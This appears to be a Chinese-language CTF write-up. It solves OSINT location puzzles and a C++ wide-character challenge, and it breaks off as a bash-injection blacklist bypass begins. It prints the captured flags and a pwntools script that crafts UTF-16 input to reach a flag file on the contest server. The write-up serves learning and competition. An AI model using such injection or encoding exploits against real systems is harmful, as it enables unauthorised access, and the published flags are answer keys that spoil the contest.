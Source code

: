 3. 在垃圾桶上看到了疑似“六安园林”的字样，结合不太常见的彩虹色跑道，搜索到了六安市的**中央森林公园**。

4. 把图扔进 Google 或者 Yandex 直接识别一下，就能找到三峡坝址基石的图，搜索可知其位于宜昌**坛子岭**风景区内。

**`flag{D3T41LS_M4TT3R_1F_R3V3RS3_S34RCH_1S_1MP0SS1BL3_5f3543295d}`**

### OMINOUS_BELL

5. 找到线路后先搜索了沿途的几个车站，但在地图上都没有找到类似的结构，遂作罢。（这里吐槽一下百度地图对海外 IP 真的不太友好...每次搜索都要做一遍验证码）临近结束的时候才想起来这题还没做，于是从北京北站开始沿着线路找有没有变宽的地方，终于在京新高速龙泽附近找到了能对上的结构。最近的医院就是北京**积水潭医院**（新龙泽院区）。  
~~我一个北京人怎么都不知道这里还有个积水潭医院~~

6. 看到左下角不太常见的粉色涂装，搜索“四编组动车 粉色”得到北京怀柔密云线，继而得到动车组型号为 **CRH6F-A**。

**`flag{1_C4NT_C0NT1NU3_TH3_5T0RY_4NYM0R3_50M30N3_PLZ_H3LP_69e42fa1c0}`**


## 不宽的宽字符

> 唉，C++，唉

因为提供了源代码，所以加上一些 `cout` 就可以看到输入的字符对应的 `c_str()` 的内容啦。  
观察发现 ASCII 字符会在后面补一个字节的 0，而 Unicode 字符会按照 UTF-16 编码并保存后两个字节。  
于是我们可以构建一串汉字使得每个字可以被解码成 `Z:\theflag` 中的两位，最后再补一个 `\0` 就可以了。

```python
from pwn import *
import os

r = remote("202.38.93.141", 14202)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())
r.recvline()

payload = ""
l = list("Z:\\theflag".encode()) + [0, 0xFF]
for i in range(0, len(l), 2):
    x = [0xFF, 0xFE, l[i], l[i + 1]]
    s = bytes(x).decode("utf-16")
    payload += s

r.sendline(payload.encode("utf-8"))
r.interactive()
```

**`flag{wider_char_isnt_so_great_dfe07d1dac}`**


## PowerfulShell

> Make Power(ful)Shell Great Again!

这题也卡了我很久，感觉很简单但就是对不上电波。  
首先搜索 "bash injection bypassing blacklists"，查到了[这篇总结](https://github.com/welchbj/ctf/blob/master/docs/injections.md#bash)。里面提到了 [bash's internal variables](https://tldp.org/LDP/abs/html/internalvariables.html)，于是把所有能用的特殊字符都试了一遍，得到：
